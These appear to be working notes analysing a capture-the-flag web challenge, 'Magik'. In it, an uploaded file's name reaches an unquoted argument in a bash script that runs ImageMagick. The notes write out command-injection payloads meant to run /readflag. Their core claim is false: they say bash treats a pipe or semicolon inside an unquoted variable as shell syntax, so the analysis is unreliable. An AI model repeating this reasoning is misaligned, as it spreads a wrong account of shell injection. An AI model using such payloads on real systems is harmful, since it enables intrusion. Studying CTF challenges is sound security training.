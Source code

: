 # Magik - Detailed Technical Analysis

## Command Flow

### 1. PHP Layer (index.php)
```php
proc_open([
    '/opt/convert.sh',
    $_FILES['img']['tmp_name'],       // $1 = /tmp/phpXXXXXX
    'static/' . $_POST['name'] . '.png'  // $2 = static/<NAME>.png
], [], $pipes)
```

**Key Point**: `proc_open()` with array does NOT invoke shell.
- Arguments are passed directly to `/opt/convert.sh`
- No shell expansion, no pipe interpretation at this level

### 2. Bash Script Layer (convert.sh)
```bash
#!/bin/bash
set -x
convert $1 -resize 64x64 -background none -gravity center -extent 64x64 $2
find . -type f -exec exiftool -overwrite_original -all= {} + >/dev/null 2>&1 || true
```

**CRITICAL**: `$1` and `$2` are UNQUOTED!

When bash sees:
```bash
convert $1 ... $2
```

And `$2 = "static/x.png |/readflag>output /app/test"`

Bash performs word-splitting on `$2`, resulting in:
```bash
convert /tmp/php... -resize 64x64 ... static/x.png |/readflag>output /app/test
```

**HOWEVER**: The pipe `|` here is interpreted by bash as a SHELL PIPE, not as a string!

Wait, let me reconsider...

## Correct Analysis

When `proc_open()` executes with array:
```
execve("/opt/convert.sh", ["/opt/convert.sh", "/tmp/phpXXX", "static/name.png"], env)
```

Inside convert.sh:
- `$1 = /tmp/phpXXX`
- `$2 = static/name.png` (where name comes from POST)

If name = `x.png |/readflag>output /app/test`, then:
- `$2 = static/x.png |/readflag>output /app/test.png`

When bash executes `convert $1 ... $2` (unquoted):
```bash
convert /tmp/phpXXX -resize 64x64 -background none -gravity center -extent 64x64 static/x.png |/readflag>output /app/test.png
```

Bash DOES interpret the pipe because `$2` is unquoted!

## Test Cases

###  Case 1: Pipe
- Input name: `x.png |/readflag>static/flag /app/out`
- $2 becomes: `static/x.png |/readflag>static/flag /app/out.png`
- Bash executes:
  ```bash
  convert /tmp/... ... static/x.png | /readflag > static/flag /app/out.png
  ```
- Result: convert outputs to pipe, /readflag reads from stdin (image data), writes to static/flag
- Issue: /readflag doesn't use stdin, so this fails

### Case 2: Semicolon
- Input name: `x.png; /readflag > flag.txt; y`
- $2 becomes: `static/x.png; /readflag > flag.txt; y.png`
- Bash executes:
  ```bash
  convert ... static/x.png  # First command
  /readflag > flag.txt       # Second command
  y.png                      # Third command (fails)
  ```
- Result: /readflag SHOULD execute and write to flag.txt in CURRENT DIRECTORY

### Current Directory
convert.sh doesn't change directory, so it runs in `/app` (WORKDIR from Dockerfile).

## File Access Problem

Files created in `/app` should be accessible via `http://host/filename`.

PHP built-in server serves from `/app`:
```
CMD ["php", "-S", "0.0.0.0:8000", "-t", "/app"]
```

When accessing `http://host/flag.txt`:
- PHP server looks for `/app/flag.txt`
- If not found, routes to `/app/index.php` (router script)
- index.php shows source code when no POST data

**Hypothesis**: Files ARE being created, but PHP's built-in server has routing that sends all requests to index.php.

## Solution Path

Need to either:
1. Write to a location that bypasses PHP routing (unlikely)
2. Exploit the PHP router itself
3. Use a different output method
4. Check if there's a `.htaccess` or similar configuration

## Next Steps
1. Test semicolon injection more carefully
2. Check if files are actually created (use ls command)
3. Try writing to known-accessible paths
4. Investigate PHP built-in server routing behavior
